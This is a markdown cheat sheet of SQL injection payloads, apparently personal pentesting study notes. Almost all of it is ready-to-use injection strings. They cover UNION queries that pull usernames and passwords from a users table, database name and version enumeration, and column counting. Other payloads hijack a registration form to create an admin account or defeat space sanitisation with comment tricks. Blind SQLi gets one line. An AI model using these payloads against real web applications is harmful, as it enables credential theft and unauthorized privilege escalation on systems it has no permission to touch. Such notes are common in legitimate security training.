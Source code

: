 # SQLi notes

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` `#` `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation
Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function
